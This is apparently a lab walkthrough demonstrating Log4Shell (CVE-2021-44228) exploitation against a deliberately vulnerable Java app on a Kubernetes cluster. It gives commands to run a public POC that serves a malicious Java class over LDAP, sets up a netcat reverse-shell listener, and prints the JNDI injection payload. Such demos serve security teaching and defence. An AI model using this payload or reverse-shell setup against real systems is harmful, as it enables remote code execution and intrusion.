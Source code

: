 ## Log4jshell Exploitation Demo

You would need 3 terminal for this exploit and a web browser open.

[Terminal 1] Start vulnerable java web application on the `tenant-jobs` namespace. 
```bash
kubectl create ns tenant-jobs
kubectl apply -f webapp-pod.yaml -n tenant-jobs
```

[Terminal 1] Wait until it starts:
```bash
kubectl get pods -n tenant-jobs -o wide
```

The web application is running with access to the host network namespace, so we can use the Ubuntu
VM external IP to open it from the web browser. 

Get the external IP of the node. Replace with your own node name.
```bash
kubectl get node gke-log4shell-natalia-te-default-pool-5a672e2f-gkjd -o jsonpath='{.status.addresses[?(@.type=="ExternalIP")].address}'
```

[Web Browser] If we open the web browser and type `<external_ip>:8080`, in my case it's `http://34.118.100.209:8080/`,
then we should be able to see the Login page of the vulnerable application:

![Screenshot](log4j_login.png)

SSH into the Ubuntu VM node with 2 terminals:
Terminal 2: to setup the LDAP server (which contains the malicious java class)
Terminal 3: to start the netcat listener (which will receive the reverse shell)

```bash
gcloud compute ssh --zone "europe-central2-a" "gke-logj4-kubecon-2023-default-pool-3f2550a2-m8tm" --project "cilium-dev"
```

[Terminal 2] Start the POC exploit, that creates the malicious java class and sets up an 
LDAP server which will listen on port `1389`.
```bash
cd log4j-shell-poc/
sudo python3 poc.py --userip localhost --webport 8000 --lport 9001
```

[Terminal 2] The output should be something like this:
```bash
[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}
[+] Starting Webserver on port 8000 http://0.0.0.0:8000

Listening on 0.0.0.0:1389
```

